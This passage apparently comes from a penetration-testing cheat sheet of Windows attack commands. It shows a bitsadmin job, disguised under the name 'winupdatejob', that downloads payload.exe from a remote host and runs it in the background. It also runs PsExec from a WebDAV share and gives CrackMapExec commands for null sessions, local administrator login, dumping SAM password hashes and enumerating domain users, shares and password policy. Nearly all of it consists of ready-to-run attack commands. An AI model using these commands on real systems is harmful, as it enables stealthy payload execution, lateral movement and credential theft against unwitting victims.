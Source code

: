 Starting with creating a job named “winupdatejob”, then we add the payload file in the job that we just created.

```
bitsadmin /addfile winupdatejob http://192.168.1.13/payload.exe C:\payload.exe
```

After adding the file, we use the /SetNotifyCmdLine switch to execute the payload. This is done with the help of an action that we scripted. First, it will start the cmd.exe and then, it will complete the download and then it will execute the said command in the background.

```
bitsadmin /SetNotifyCmdLine winupdatejob cmd.exe "/c bitsadmin.exe /complete winupdatejob | start /B C:\payload.exe"
```

After this, we run the /resume switch to get the download started.

```
bitsadmin /resume winupdatejob
```

## PSexec from WebDAV

```
\\live.sysinternals.com\tools\PSExec64.exe -accepteula
```

## CrackMapExec Tips and Tricks

Null session:

```
crackmapexec smb 192.168.2.24 -u "" up ""
```

Connect to target using local account:

```
crackmapexec smb 192.168.2.24 -u 'Administrator' -p 'Password' --local-auth
```

Dump local SAM hashes:

```
crackmapexec smb 192.168.2.24 -u 'Administrator' -p 'Password' --local-auth --sam
```

#### Enumerate Everything

> [!NOTE]
> Some enumeration methods may fail depending on the privilege level of the user you're authenticating as

Password authentication:

```
crackmapexec smb CIDR/IP -d targetdomain.tld -u username -p 'password' \
--shares \
--sessions \
--disks \
--loggedon-users \
--users \
--groups \
--computers \
--local-groups \
--pass-pol
```


[VICTIM]: PS C:\Users\Victim\Documents>